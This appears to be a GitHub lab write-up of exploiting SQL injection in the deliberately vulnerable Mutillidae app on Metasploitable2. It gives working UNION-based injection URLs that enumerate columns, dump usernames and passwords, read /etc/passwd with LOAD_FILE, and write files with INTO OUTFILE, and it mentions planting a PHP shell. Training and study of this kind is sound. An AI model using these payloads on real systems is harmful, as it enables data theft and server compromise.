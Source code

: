 ![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/c1f8ba7e-e1bf-40dd-80a0-c7ea10b01d16)

The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/f682df48-ddc2-4e37-8166-efe159b5ca18)

The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/1aff9cc4-3190-4508-a4ae-de3024ca17cb)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/cb5bf31d-7e0d-4d69-9c0e-94b4b70f7aa8)

## Reading and writing files on the web-server:

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Srujana0303/sqlinjection/assets/132996836/54c99ef6-de88-44d5-a7ed-c7a7d645d27d)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
